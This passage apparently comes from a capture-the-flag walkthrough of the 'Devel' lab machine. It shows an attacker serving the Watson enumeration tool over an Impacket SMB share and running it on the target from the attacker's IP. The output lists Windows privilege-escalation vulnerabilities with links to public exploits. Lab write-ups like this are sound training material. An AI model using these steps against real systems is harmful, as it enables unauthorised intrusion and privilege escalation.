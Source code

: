 Once that's done, we set the solution to Release and Build (Ctrl + B).  Now we can copy the compiled binary and host it on Kali.

We can allow Devel access to Watson and any other binaries we create by hosting it on a public SMB share.  Impackets `smbserver` utility is perfect for this.

#### Impacket smbserver
```bash
# /usr/bin/impacket-smbserver -smb2support share .
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

This will allow all content in the current directory to be accessible by SMB at `\\<VPN IP>\share\`.  Now we should be able to execute Watson without touching disk!

#### Watson.exe
```powershell
PS C:\Users\Public\Documents> \\10.10.14.22\share\Watson.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 7600
 [*] CPU Address Width: 32
 [*] Process IntPtr Size: 4
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS10-073
   [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
   [>] Exploit: https://www.exploit-db.com/exploits/36327/
   [>] Notes: None.

  [*] Appears vulnerable to MS10-092
   [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with
.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 c
ollision, an attacker can execute arbitrary commands with SYSTEM privileges.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS11-046
   [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privile
ges.
   [>] Exploit: https://www.exploit-db.com/exploits/40564/
   [>] Notes: None.

  [*] Appears vulnerable to MS12-042
```